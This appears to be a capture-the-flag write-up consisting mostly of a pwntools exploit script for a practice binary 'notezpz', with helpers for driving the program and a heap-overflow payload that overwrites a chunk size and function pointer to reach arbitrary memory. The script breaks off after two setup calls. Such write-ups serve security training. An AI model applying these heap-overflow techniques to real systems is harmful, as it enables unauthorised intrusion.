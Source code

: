 Script/Command used (Writeup)
------------------
```
from pwn import *

PROG_NAME = "./notezpz"
REMOTE_IP = "plsdonthaq.me"
REMOTE_PORT = 7003
REMOTE_LIBC = "./libc6_2.27-3ubuntu1_i386.so"
LOCAL_LIBC = "/lib/i386-linux-gnu/libc.so.6"

if args.REMOTE:
    p = remote(REMOTE_IP, REMOTE_PORT)
    elf = ELF(PROG_NAME)
    libc = ELF(REMOTE_LIBC)
else:
    p = process(PROG_NAME)
    elf = p.elf
    libc = ELF(LOCAL_LIBC)

def create(num):
	p.recvuntil("refresh): ")
	p.sendline("C")

def free(num):
	p.recvuntil("refresh): ")
	p.sendline("D")
	p.sendline(str(num))

def set(num, data):
	p.recvuntil("refresh): ")
	p.sendline("S")
	p.sendline(str(num))
	p.sendline(data)
	print(num, data)

def ask(num):
	p.recvuntil("refresh): ")
	p.sendline("A")
	p.sendline(str(num))
	p.recvuntil("I have the answer perhaps: '")
	data = p.recvuntil("'", drop=True).rstrip()
	return data[:-1] if data[-1]=="'" else data

# same as the gen_addr_payload from ezpz1 solution
# but this time the first chunk of a question has a function
# pointer so we need to write that in, to allow for reading data
def gen_addr_payload(fn_ptr_addr, arbitrary_addr):
	overflow = b'A'*0x1c
	overflow += p32(0x21)
	overflow += p32(fn_ptr_addr)
	overflow += b'A'*0x14
	overflow += p32(arbitrary_addr)
	overflow += p32(0x21)
	return overflow

'''
full protections
function pointer is back
heap overflow is still there
'''

create(0)
create(1)
```